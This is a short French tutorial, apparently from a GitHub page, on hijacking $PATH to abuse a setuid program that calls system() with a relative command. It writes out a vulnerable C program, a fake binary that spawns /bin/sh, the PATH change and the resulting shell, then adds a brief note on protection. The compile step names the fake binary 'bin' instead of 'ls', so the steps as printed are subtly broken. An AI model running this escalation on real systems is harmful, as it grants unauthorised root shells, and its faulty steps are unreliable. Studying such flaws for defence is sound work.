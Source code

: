 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    aas@ubuntu:~$ cat vuln.c
    void main()
    {
      system("ls -l");
    }

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    ```php
    aas@ubuntu:~$ ./vuln 
    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
    ```

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    aas@ubuntu:~$ cat exploit.c 
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    aas@ubuntu:~$ gcc exploit.c -o bin

### Modification de $PATH
    `aas@ubuntu:~$ PATH=.:$PATH`

### Execution
    ```bash
    aas@ubuntu:~$ ./vuln 
    $
    ```

## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

